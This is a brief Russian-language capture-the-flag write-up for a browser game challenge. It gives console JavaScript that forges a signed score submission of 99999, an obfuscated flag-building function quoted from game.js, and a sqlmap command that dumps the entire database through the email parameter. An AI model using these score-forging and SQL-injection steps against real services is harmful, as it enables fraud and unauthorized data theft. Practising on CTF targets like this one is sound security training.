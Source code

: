 1. Находим код в game.js, который передает результаты игры.

2. После отправки результата игры, что бы заменить количество очков на 99999 выполняем в консоле  браузера:
```
var b1 = aY[b('0x1f')][0x0][b('0x20')];
bI=99999;
str = bI + b1 + b0;
sign = b3(str);
var b2 = '/addresult?email=' + encodeURI(b1) + b('0x21') + encodeURI(b0) + '&score=' + encodeURI(bI) + b('0x22') + encodeURI(sign);
```
b2 подставляем в http://easygame.ctf2019.rocks/addresult? и получаем флаг

3. Находим дополнительный флаг  в game.js
```
function be() {
    var bf = 'T';
    var bg = '{';
    var bh = 'C';
    var bi = '}';
    var bj = 'F';
    var bk = 'G';
    var bl = 'W';
    var bm = '6FF2866491F6CD6';
    var bn = b('0x2e');
    console[b('0x8')](bl + bk + bh + bf + bj + bg + bm + bn + bi);
}
```

4. Еще один дополнительный flag находим с помощью sqlmap
sqlmap -u http://easygame.ctf2019.rocks/addresult?email=p --dump-all --keep-alive --dbms=sqlite
